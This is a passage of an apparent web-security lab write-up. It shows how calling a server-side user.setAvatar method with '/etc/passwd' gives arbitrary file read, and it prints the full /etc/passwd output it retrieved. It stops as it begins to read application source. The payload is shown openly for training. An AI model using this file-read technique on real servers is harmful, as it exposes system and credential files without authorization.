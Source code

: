 Since this function is part of the object `User` let's just try this when we changed our preferred name, and instead of `user.nickname` make it `user.setAvatar()`.

![[Pasted image 20250127093003.png]]

Based on this error we can conclude that the function works here as well, but we haven't passed two of the arguments that it expects.

Let's try to put the file first at `/etc/passwd` with the image mime type.

`user.setAvatar('/etc/passwd','image/png')`

Then when I load the comment that I posted, I see a link with a `broken image as avatar`, but let's copy the link to the avatar and make a `GET` request to it.

It downloaded the file, which contains the `/etc/passwd` content.

```shell
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
peter:x:12001:12001::/home/peter:/bin/bash
carlos:x:12002:12002::/home/carlos:/bin/bash
user:x:12000:12000::/home/user:/bin/bash
elmer:x:12099:12099::/home/elmer:/bin/bash
academy:x:10000:10000::/academy:/bin/bash
messagebus:x:101:101::/nonexistent:/usr/sbin/nologin
dnsmasq:x:102:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
systemd-timesync:x:103:103:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:104:105:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:105:106:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
mysql:x:106:107:MySQL Server,,,:/nonexistent:/bin/false
```

From one of the errors above, also the location of the `User` function got revealed, so let's try to read that one.

This, by sending a request to change the avatar with the following body:
